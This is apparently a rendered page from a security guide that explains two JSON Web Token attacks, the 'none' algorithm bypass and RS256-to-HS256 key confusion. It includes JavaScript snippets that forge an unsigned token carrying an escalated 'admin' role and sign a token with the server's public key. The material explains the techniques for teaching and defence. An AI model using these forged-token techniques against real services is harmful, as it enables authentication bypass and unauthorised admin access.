 ### 1. Algorithm None Attack

The "none" algorithm allows tokens to have no signature, completely bypassing verification.

```javascript
// Original header
{
  "alg": "HS256",
  "typ": "JWT"
}

// Modified to use "none" algorithm
{
  "alg": "none",
  "typ": "JWT"
}
```

**Exploitation:**
```javascript
const header = {
  "alg": "none",
  "typ": "JWT"
};
const payload = {
  "sub": "1234567890",
  "name": "John Doe",
  "role": "admin"  // Escalated privileges
};
const modifiedToken = base64UrlEncode(JSON.stringify(header)) + '.' + 
                     base64UrlEncode(JSON.stringify(payload)) + '.';
```

### 2. Algorithm Switching Attack (Key Confusion)

Switching from asymmetric (RS256) to symmetric (HS256) algorithms can lead to signature bypass.

```javascript
// Original header (RS256 - asymmetric)
{
  "alg": "RS256",
  "typ": "JWT"
}

// Modified to use HS256 (symmetric)
{
  "alg": "HS256",
  "typ": "JWT"
}
```

**Exploitation:**
```javascript
// If the server uses the public key to verify HS256 signatures
// when it should only use it for RS256 verification
const publicKey = fetchPublicKey(); // From certificate, JWKs, etc.

// Modify token to use HS256 with public key as the secret
const token = createHS256Token(payload, publicKey);
```
